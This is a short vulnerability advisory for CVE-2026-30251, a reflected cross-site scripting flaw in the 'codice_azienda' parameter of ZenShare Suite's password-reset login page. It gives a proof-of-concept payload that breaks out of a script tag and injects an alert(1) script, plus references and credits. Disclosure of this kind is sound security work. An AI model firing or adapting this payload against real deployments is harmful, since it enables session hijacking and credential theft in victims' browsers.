


# **CVE-2026-30251**


# Details
* **Vulnerability Type**: ZenShare Suite < 17.0 - Reflected Cross-Site Scripting (XSS)
* **Affected Application**: ZenShare Suite
* **Affected Versions**: < 17.0
* **Affected Component**: /login_newpwd.php?[codice_azienda]
* **Impact**: Javascript Code Execution leading to session hijacking or credential theft in victim’s browser context.

# PoC
##  ```GET /login_newpwd.php?[codice_azienda]```

Malicious Payload:

```
codice_azienda=</script><script>alert(1)</script>
```





# References
https://nvd.nist.gov/vuln/detail/CVE-2026-30251 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2026-30251 <br>
# Credits
**Manuel Scala**, **Federico Mirra**, **Francesco Berti** <br></br>
<a href="https://sk-it.com/">
